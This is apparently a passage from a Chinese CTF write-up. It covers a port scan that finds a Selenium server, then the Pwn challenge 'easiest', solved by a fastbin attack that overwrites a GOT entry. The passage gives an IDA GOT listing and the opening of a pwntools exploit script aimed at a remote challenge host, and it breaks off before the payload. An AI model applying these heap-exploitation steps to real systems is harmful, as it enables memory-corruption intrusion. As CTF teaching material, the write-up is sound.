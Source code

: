 dict扫端口，得到4444端口开启`selenium server`

参考:`http://www.coffeehb.cn/?id=92`

以后再说。

# Pwn

## easiest

fastbin attack 修改 __libc_start_main_got,一开始尝试修改free_got,发现会破坏got头部的两个指针。qword_602008和qword_602010被破坏，会出错。

```
got.plt:0000000000602000 _got_plt        segment para public 'DATA' use64
.got.plt:0000000000602000                 assume cs:_got_plt
.got.plt:0000000000602000                 ;org 602000h
.got.plt:0000000000602000                 dq offset stru_601E28
.got.plt:0000000000602008 qword_602008    dq 0                    ; DATA XREF: sub_400750↑r
.got.plt:0000000000602010 ; __int64 (*qword_602010)(void)
.got.plt:0000000000602010 qword_602010    dq 0                    ; DATA XREF: sub_400750+6↑r
.got.plt:0000000000602018 off_602018      dq offset free          ; DATA XREF: _free↑r
.got.plt:0000000000602020 off_602020      dq offset puts          ; DATA XREF: _puts↑r
.got.plt:0000000000602028 off_602028      dq offset fread         ; DATA XREF: _fread↑r
.got.plt:0000000000602030 off_602030      dq offset __stack_chk_fail
.got.plt:0000000000602030                                         ; DATA XREF: ___stack_chk_fail↑r
.got.plt:0000000000602038 off_602038      dq offset setbuf        ; DATA XREF: _setbuf↑r
.got.plt:0000000000602040 off_602040      dq offset system        ; DATA XREF: _system↑r
.got.plt:0000000000602048 off_602048      dq offset printf        ; DATA XREF: _printf↑r
.got.plt:0000000000602050 off_602050      dq offset alarm         ; DATA XREF: _alarm↑r
.got.plt:0000000000602058 off_602058      dq offset __libc_start_main
.got.plt:0000000000602058                                         ; DATA XREF: ___libc_start_main↑r
.got.plt:0000000000602060 off_602060      dq offset strtol        ; DATA XREF: _strtol↑r
.got.plt:0000000000602068 off_602068      dq offset malloc        ; DATA XREF: _malloc↑r
.got.plt:0000000000602070 off_602070      dq offset setvbuf       ; DATA XREF: _setvbuf↑r
.got.plt:0000000000602078 off_602078      dq offset __isoc99_scanf
.got.plt:0000000000602078                                         ; DATA XREF: ___isoc99_scanf↑r
.got.plt:0000000000602080 off_602080      dq offset exit          ; DATA XREF: _exit↑r
.got.plt:0000000000602080 _got_plt        ends
```



```
from pwn import *

debug = int(raw_input("debug:"))

elf = ELF("./easiest")

if debug:
    p = process("./easiest")
    context.log_level = "debug"
else:
    p = remote("39.96.9.148", 9999)
    context.log_level = 'debug'

def add(index, length, content):
    p.sendlineafter("delete", "1")
    p.sendlineafter(":", str(index))
    p.sendlineafter("Length:", str(length))
    p.sendafter("C:", content)

def delete(index):
    p.sendlineafter("delete", "2")
```